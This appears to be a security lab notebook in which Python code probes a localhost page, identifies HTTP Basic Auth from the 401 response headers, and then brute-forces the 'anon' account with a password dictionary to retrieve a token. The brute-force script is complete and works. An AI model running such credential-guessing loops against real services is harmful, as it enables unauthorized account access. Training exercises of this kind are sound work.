 

**Task 11:** A token is kept at page localhost/token/index.html by user "anon". But, the page is protected. What kind of protection is deployed?


```python
import requests
from bs4 import BeautifulSoup

resp = requests.get('http://localhost/token/index.html')
soup = BeautifulSoup(resp.text, 'html.parser')

print(soup.prettify())

print(resp.headers)
```

    <html>
     <head>
      <title>
       401 Authorization Required
      </title>
     </head>
     <body bgcolor="white">
      <center>
       <h1>
        401 Authorization Required
       </h1>
      </center>
      <hr/>
      <center>
       nginx/1.14.0
      </center>
     </body>
    </html>
    
    {'Server': 'nginx/1.14.0', 'Date': 'Fri, 21 Sep 2018 08:10:56 GMT', 'Content-Type': 'text/html', 'Content-Length': '195', 'Connection': 'keep-alive', 'WWW-Authenticate': 'Basic realm="Anon token is here"'}


**Answer:** Basic Auth is used.

**Task 12:** Break the protection and get the token kept at page localhost/token1/index.html


```python
import requests
from bs4 import BeautifulSoup

url='http://localhost/token/index.html'
username='anon'
password_dict="password_dictionary.txt"
timeout=5

# Loading the password dictionary and Striping \n
lines = [line.rstrip('\n') for line in open(password_dict)]

for password in lines:
    print("Trying with password: ",password)
    auth = requests.auth.HTTPBasicAuth(username, password)
    resp = requests.get(url=url, auth=auth, verify=False, timeout=timeout)
    if "Authorization Required" not in str(resp.text):
        print("Login successful with password: ",password)
        soup = BeautifulSoup(resp.text, 'html.parser')
        break

print(soup.prettify())
```